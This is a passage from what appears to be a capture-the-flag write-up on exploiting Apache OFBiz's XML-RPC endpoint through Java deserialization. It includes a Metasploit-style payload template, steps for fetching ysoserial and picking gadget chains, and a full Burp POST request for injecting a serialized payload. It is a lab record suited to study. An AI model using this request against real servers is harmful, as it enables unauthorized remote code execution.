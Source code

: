               <params>
                <param>
                  <value>
                    <struct>
                      <member>
                        <name>#{rand_text_alphanumeric(8..42)}</name>
                        <value>
                          <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">#{Rex::Text.encode_base64(data)}</serializable>
                        </value>
                      </member>
                    </struct>
                  </value>
                </param>
              </params>
            </methodCall>
          XML
        )
      end



#### Find Payload

I'll download [ysoserial](https://github.com/frohoff/ysoserial)
(`sudo wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O /usr/local/bin/ysoserial`
and `sudo +x /usr/local/bin/ysoserial`) to generate Java serialized
payloads. The trick with yso is always finding the right set of gadgets
to use (Payload). I'll typically try a bunch, starting with the
`CommonsCollection` ones, and then other `Commons` ones.

I'll get a request that looks like this in Burp Repeater:



    POST /webtools/control/xmlrpc HTTP/1.1
    Host: localhost:8443
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Cookie: JSESSIONID=6BED6745363C7728AAE4274F77E4B6D2.jvm1; OFBiz.Visitor=10000
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Type: test/xml
    Content-Length: 3145

    <?xml version="1.0"?>
    <methodCall>
      <methodName>0xdf0xdf</methodName>
      <params>
        <param>
          <value>
            <struct>
              <member>
                <name>0xdf0xdf</name>
                <value>
                  <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[yso output here]</serializable>
                </value>
              </member>
            </struct>
          </value>
        </param>